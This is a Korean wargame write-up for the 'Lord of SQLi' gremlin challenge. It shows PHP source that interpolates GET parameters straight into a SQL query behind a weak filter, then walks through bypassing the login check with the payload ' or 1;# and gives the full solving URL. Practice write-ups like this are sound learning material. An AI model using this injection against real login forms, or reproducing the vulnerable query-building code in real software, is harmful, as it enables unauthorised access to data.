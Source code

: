 # Lord of SQLi - gremlin

> query : select id from prob_gremlin where id='' and pw=''

```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```
- GET 방식으로 파라미터를 넘겨주고 있다.  
- id와 pw 둘 다 prob, \_, ., () 문자만 필터링 하고있다. 문제의 DB를 공격하여 DB를 수정하는 것을 막는다.
- 위의 내용을 제외한 필터링은 존재하지 않는다.

> select id from prob_gremlin where id='' and pw=''  
> 위 쿼리를 DB에 전송하여 테이블 내의 항목중 'id'컬럼에 어떤 값이라도 반환된다면 문제가 풀린다.  
> 보통 워게임에서 권한을 탈취해야하는 ID 는  주로 'admin'이지만 이번 문제는 ID가 'admin'이라는 것을 모른다는 가정하에 풀어보겠다.

- 우선 GET방식으로 id=asdf&pw=asdf 를 전달하면
```php
<?php
$_GET[id]='asdf';
$_GET[pw]='asdf';
?>
```
- 이런식으로 슈퍼전역변수가 선언된다. 이때의 쿼리는 아래와 같이 선언된다.

```php
<?php
$query = "select id from prob_gremlin where id='asdf' and pw='asdf'";
?>
```

- 아무런 필터링이 없는 것을 이용하여 ID에 single quote와 mysql의 한줄주석을 뜻하는 문자인 '#'를 이용하여 문제를 풀어보겠다.
- ID에 " ' or 1;%23 " 을 GET 방식으로 전달해보았다.

> query : select id from prob_gremlin where id='' or 1#' and pw=''

- 이렇게 되면 prob_gremlin 테이블에있는 id가 없거나 모든 아이디중에서 가장 위에 있는 결과값을 가져오게 된다.

### payload
> URL : http://los.eagle-jump.org/gremlin_bbc5af7bed14aa50b84986f2de742f31.php?id=%27%20or%201;%23

> query  : select id from prob_gremlin where id='' or 1;#' and pw=''
